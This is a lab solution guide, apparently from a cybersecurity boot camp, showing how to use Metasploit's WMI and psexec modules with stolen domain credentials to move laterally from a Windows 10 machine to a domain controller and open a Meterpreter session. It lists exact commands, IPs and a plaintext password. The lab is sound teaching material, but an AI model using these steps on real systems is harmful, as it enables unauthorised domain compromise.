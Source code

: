 ## Solution Guide: Lateral Movement 

For this activity, you will use bbaner's credentials to move laterally from Windows10 to WINDC01.

**Note:** This requires a SYSTEM shell on the Windows 10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

⚠️ **Reminder:** Don't forget to save your findings, as you will add them to your Week 17 Homework!

### Instructions

1. First, ensure you're working from a SYSTEM-level shell on the Windows 10 machine, then use the 'exploit/windows/local/wmi' module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload
	
	- `run -j`

	- ![Screenshot depicts the module settings](../../../Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- ![Screenshot depicts the successful run and info of the system](../../../Images/wmiexploit.PNG)		
	
You have successfully launched the WMI exploit from our Meterpreter session on Windows 10 to WINDC01. From a network traffic perspective, the exploit content occured between Windows 10 and WINDC01, instead of Kali to WINDC01. 

---
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
